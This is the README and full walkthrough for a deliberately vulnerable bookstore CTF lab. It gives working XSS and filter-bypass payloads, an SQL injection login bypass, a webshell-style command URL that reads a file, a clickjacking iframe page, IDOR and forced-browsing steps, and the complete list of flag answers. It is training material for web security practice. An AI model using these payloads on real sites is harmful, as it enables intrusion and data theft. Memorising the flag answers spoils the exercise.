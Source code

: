 # BookTryHackMe

Test your web hacking skills on a simulated bookstore website! Explore multiple pages with realistic-looking content while uncovering hidden vulnerabilities included are:

1.IDOR -Insecure Direct Object Reference
2.Stored XSS - Persistent Cross-Site Scripting (Reviews)
3.Reflected XSS - Burp bypass
4.Unrestricted File Upload (simulated webshell exec)
5.Forced Browsing to Unprotected Admin/Static Flag
6.Clickjacking (index/admin framing)
7.SQLi Detection / Simulation (Detect classic SQLi pattern)
8.Information disclosure / default credentials	


Discover hidden flags by exploiting these vulnerabilities safely in a CTF environment.

---

# BookStore CTF - Detailed Walkthrough (Exploits + Code)

## Flag 001 — Default/Test Credentials (Welcome flag)

**Location:** `GET/POST /login` (Login page)
**Why vulnerable:** Developer/test credentials are left in the page source (HTML comment / leftover).
**How to exploit:**

* Open Login page.
* View page source (Ctrl+U).
* Search for `DEFAULT CREDENTIALS` / `test@example.com` / `Welcome123`.
* Use found credentials to log in.
  **Example creds (lab):**

```
test@example.com
Welcome123
```

**Expected result:** `THM{welcome_flag_001}`

---

## Flag 002 — IDOR (Hidden profile)

**Location:** `GET /profile?id=<id>`
**Why vulnerable:** Server returns profile based only on numeric `id` parameter without verifying requester ownership.
**How to exploit:**

* Log in with any account.
* Open your profile `/profile?id=1`.
* Change URL to `/profile?id=99` and reload.
  **Expected result:** `THM{idor_hidden_flag_002}`

---

## Flag 003 — Stored XSS (Review form)

**Location:** `POST /book?id=<n>` (review form on a book page)
**Why vulnerable:** Review input is stored and later rendered unsanitized (persistent XSS).
**How to exploit (payload examples):**

* Submit review text containing a payload, e.g.:

```html
<img src=x onerror=alert('xss')>
```

or

```html
<script>alert('xss')</script>
```

* Open the book page in a different session or reload — payload executes.
  **Expected result (lab triggers flag when payload detected):** `THM{stored_xss_flag_003}`

---

## Flag 004 — Reflected XSS (Search page, Burp bypass)

**Location:** `GET /search?query=...`
**Why vulnerable:** The `query` param is reflected into the page without proper encoding; naive filters block `<script>` but can be bypassed via encoding/event attributes.
**How to exploit (use Burp / URL encode):**

* Capture `GET /search?query=term` in Burp Proxy → send to Repeater.
* Replace `query` with a URL-encoded event payload, e.g.:

```
%3Cimg%20src%3Dx%20onerror%3Dalert('xss')%3E
```

* Replay request and view page — payload executes.
  **Alternate bypass:** use `onmouseover` in an `<a>` tag encoded.
  **Expected result:** `THM{reflected_xss_flag_04}`

---

## Flag 005 — Unrestricted File Upload (Simulated webshell exec)

**Location:** `POST /upload_profile` (uploads saved to `/static/uploads/`) and `/uploads/exec/<file>?cmd=...` (simulated exec)
**Why vulnerable:** App allows uploads to web-served directory and provides a simulated exec endpoint that reads files. (In lab, execution is simulated for safety.)
**How to exploit:**

1. Upload file via profile upload form (e.g., name it `myshell.php` or `myshell.txt`).
2. Confirm reachability: `https://<HOST>/uploads/myshell.php`
3. Call simulated exec endpoint:

```
http://<HOST>/uploads/exec/myshell.php?cmd=cat%20/opt/flag_shell.txt
```

**Expected result:** `THM{shell_flag_05}`

---

## Flag 006 — Clickjacking (Index framing)

**Location:** Home page `/` (index)
**Why vulnerable:** Page can be framed — missing `X-Frame-Options` / `Content-Security-Policy: frame-ancestors`. The app detects being framed and shows the flag.
**How to exploit (local attacker page):** create `attack.html`:

```html
<!doctype html>
<html>
  <body>
    <iframe src="http://<HOST>/" style="width:1000px;height:800px;border:0"></iframe>
  </body>
</html>
```

* Open `attack.html` in browser (file:// or local http server).
  **Tip:** Use Firefox if Chrome blocks embedding.
  **Expected result:** `THM{clickjack_flag_06}`

---

## Flag 007 — SQL Injection (Login simulation)

**Location:** `POST /login` (login form)
**Why vulnerable:** Lab simulates unsafe string concatenation in SQL queries (demonstration branch detects classic SQLi).
**How to exploit (payload):**

* Email or password field:

```
' OR '1'='1
```

* Submit form.
  **Why it works:** The payload makes the login WHERE clause always true. (CTF detects SQLi pattern and returns flag.)
  **Expected result:** `THM{SQLi_successful}`

---

## Flag 009 — Forced Browsing / Sensitive static file

**Location:** `/static/admin/flag.txt` (or similar common admin static paths)
**Why vulnerable:** Sensitive file(s) left in webroot and accessible without authentication.
**How to exploit (forced browse / curl):**

```
curl -v https://<HOST>/static/admin/flag.txt
```

or just visit `https://<HOST>/static/admin/flag.txt` in browser.
**Expected result:** `THM{Final_hidden_flag_09}`

---

Collect all individual flags:

```
THM{welcome_flag_001}

THM{idor_hidden_flag_002}

THM{stored_xss_flag_003}

THM{reflected_xss_flag_04}

THM{shell_flag_05}

THM{clickjack_flag_06}

THM{SQLi_successful}

THM{Final_hidden_flag_09}
```
